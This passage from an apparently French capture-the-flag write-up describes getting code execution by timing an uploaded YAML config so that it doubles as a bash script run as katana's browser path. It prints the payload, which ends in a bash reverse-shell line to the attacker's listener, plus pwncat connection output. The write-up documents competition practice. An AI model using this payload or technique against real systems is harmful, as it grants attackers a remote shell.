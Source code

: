 Je n'y arrive pas! et c'est le lendemain matin que foxtrot me mentionner la chose suivante:

> foxtrot: Savais-tu que `...` signifie la fin d'un fichier yaml?

Moi:

![alt text](img/pikachu.png)

Dernier point que je n'ai pas parler. Dans le nom du fichier cree sur le disque 
```python
filename = f"/tmp/admin-configs/config-{str(int(time.time()))}.yml"
```
Le temps en EPOCH est ajouter au fichier, j'utile donc une 2e console avec la commande `watch -n1 date +%s` afin d'avoir le temps en epoch "live"
Je forge le payload suivant environ 10seconde d'avance avec `pwncat` qui ecoute et attend impatiament le reverse shell

```yaml
#!/bin/bash 
---
list: 
  - http://perdu.com
system-chrome-path: "/tmp/admin-configs/config-$VALEUR_EN_EPOCH.yml"
headless: true
...
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

On l'encode en base64 et je me tien pret a appuyer sur le boutton!

.......

Bon je n'ai pas ete capable de le refaire en quelque tentative j'ai donc simplement executer katana localement et il s'est bel et bien connecter sur mon listener.
Lors du CTF j'ai eu ma connection du premier coup. Sinon j'aurais automatise la requetes

Avec une execution locale
```
[20:25:49] Welcome to pwncat 🐈!                                                                         __main__.py:164
[20:25:52] received connection from XX.XX.XX.X:XXXXXXX                                                        bind.py:84
```

Le flag etait de memoire accessible simplement sur le disque.